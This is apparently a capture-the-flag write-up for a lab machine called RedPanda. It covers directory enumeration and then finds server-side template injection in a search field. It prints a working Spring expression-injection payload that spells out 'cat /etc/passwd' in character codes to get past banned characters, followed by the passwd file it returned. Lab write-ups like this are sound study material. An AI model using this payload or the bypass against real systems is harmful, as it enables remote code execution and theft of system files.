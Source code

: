 (then to make things easier, I added redpanda.htb to my /etc/hosts)

Used feroxbuster directory enumeration --> found the  /stats page

/stats reveals the path of some images. It also suggests that something is counting the number of times pages have loaded.

Examination of the html shows a comment linking to a codepen: https://codepen.io/khr2003/pen/BGZdXw

Sadly, the CodePen only reveals how the main page's animation was created.

Initial checks for template injection on the search field show $ is a banned character. So is %

Checking the /stats?author=... uri for template injection --> http://redpanda.htb:8080/stats?author=${7*7} gave a funny 400-BadRequest page.

Went back to check more SSTI against the search field. Found it would evaluate basic math without any escaping

**Found it!** *{ } works as one would expect ${} to work. We can put the payload within those characters to execute code and return the output to the search page.

### Foothold

This worked (modified from PayloadAllTheThings SSTI section.)

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

If you follow the ascii table, that says "cat /etc/passwd"

This revealed the contents. It looks like we might be finding a way into the **woodenk** user, but that's just a guess: 

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false 
```
